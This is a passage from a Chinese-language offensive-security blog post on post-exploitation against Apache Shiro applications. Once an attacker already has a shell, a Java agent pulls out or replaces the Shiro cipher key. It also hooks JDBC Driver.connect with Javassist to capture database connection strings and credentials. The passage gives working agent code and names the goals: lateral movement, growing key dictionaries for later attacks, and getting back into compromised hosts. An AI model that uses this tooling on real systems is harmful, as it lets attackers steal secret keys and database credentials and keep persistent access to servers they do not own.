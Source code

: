 ```
setCipherKey(org.apache.shiro.codec.Base64.decode(temp));
// temp传入修改的shiro的值
```



----

#### 获取shiro的key

为什么我们需要获取shiro的key呢？其实这才是我最开始想做的事情，修改key只是后来想到加上去的。本意和北辰的文章[从内存中Dump JDBC数据库明文密码](https://mp.weixin.qq.com/s/QCfqO2BJuhSOr58rldZzxA)类似，但也有不同的地方。我们来假设一个场景来帮助大家来理解，如果我们一个站点存在shiro，但我们跑不出key。但我们通过了其他RCE或者任意文件上传的手段获取到了shell，这时候我们就可以通过本文中的工具去获取shiro的key值。我们都获取到了shell，为什么还要获取key呢？

1. 可以方便我们快速的实现内网横向，毕竟shiro这个漏洞利用已经非常非常成熟了。
2. 可以将这个key加入我们key字典中，方便之后的项目中测试。
3. 如果我们修改key，但我们一失手忘记掉了key，也还要补救的措施。
4. 如果点掉了，可以通过shiro这个入口快速重新切进去。

目前我和师傅hl0rey所能想到获取shiro的key的四点价值，这么来看获取key是非常有必要的功能。

具体实现代码其实也非常的简单，最终笔者将北辰师傅获取JDBC字符串、修改key和获取key三个功能整合在了一起，加了一个判断。

```
fileOutputStream.write(org.apache.shiro.codec.Base64.encodeToString(getDecryptionCipherKey()).getBytes());
```



最终完整的实现代码如下：

```
    public static void agentmain(String agentArg, Instrumentation inst){
        arg2 = agentArg;
        Class[] classes  = inst.getAllLoadedClasses();

        for (int i = 0; i < classes.length; i++) {
            Class clazz = classes[i];
            try {
                // 判断类clazz是否是Driver.class的子类、实现类
                if (Driver.class.isAssignableFrom(clazz)){
                    ClassPool classPool = new ClassPool(true);
                    // 加入clazz的classpath
                    classPool.insertClassPath(new ClassClassPath(clazz));
                    // 加入类加载器
                    classPool.insertClassPath(new LoaderClassPath(clazz.getClassLoader()));
                    CtClass ctClass = classPool.get(clazz.getName());
                    // 获取类中的connect方法 方法desc有getMethodSignature方法获取
                    CtMethod ctMethod = ctClass.getMethod("connect","(Ljava/lang/String;Ljava/util/Properties;)Ljava/sql/Connection;");
                    // 修改connect方法，再开头加入自定义代码
                    ctMethod.insertBefore(String.format("                    try {\n" +
                            "                        java.lang.Class.forName(\"%s\",true,java.lang.ClassLoader.getSystemClassLoader()).getMethod(\"add\", new java.lang.Class[]{java.lang.String.class, java.util.Properties.class}).invoke(null,new java.lang.Object[]{$1,$2});\n" +
                            "                    }catch (java.lang.Throwable e){\n" +
//                            "                        e.printStackTrace();\n" +
                            "                        \n" +
                            "                    }",Main.class.getName()));

                    inst.redefineClasses(new ClassDefinition(clazz,ctClass.toBytecode()));
                    ctClass.detach();
                }
            }catch (Throwable e){
                e.printStackTrace();
            }
        }

```
